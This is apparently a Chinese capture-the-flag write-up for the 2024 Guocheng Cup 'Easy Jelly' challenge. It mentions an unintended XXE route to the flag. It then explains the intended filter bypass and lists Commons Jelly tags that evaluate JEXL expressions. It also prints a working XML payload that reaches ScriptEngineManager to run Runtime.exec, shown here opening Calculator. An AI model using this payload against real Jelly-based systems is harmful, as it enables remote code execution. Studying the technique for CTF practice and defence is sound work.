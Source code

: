 # 2024-国城杯-Easy Jelly

##

有个非预期解，直接能xxe秒了，没做过滤直接读下flag就行。这里说下预期的，直接能调Jexl表达式执行命令，但是这里有过滤。

![](image/image_SsXT_0H7Q4.png)

翻下官方文档，[https://commons.apache.org/proper/commons-jelly/tags.html](https://commons.apache.org/proper/commons-jelly/tags.html "https://commons.apache.org/proper/commons-jelly/tags.html")。挺多能执行jexl表达式的，下面这五个应该都行，去除下被过滤的还剩好几个，可以都试试有的可能有限制比如when这种：

core:expr-value，core:if-test	，core:set-value，core:when-test，core:break-test，core:whitespace

```java
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core">
    <j:getStatic var="test"
className="org.apache.commons.jelly.servlet.JellyServlet" field="RESPONSE"/>
    <j:break test="${test.toString().getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec(&quot; open -a Calculator&quot;)')}"></j:break>
</j:jelly>
```

![](image/image_DvRNsZL_-h.png)
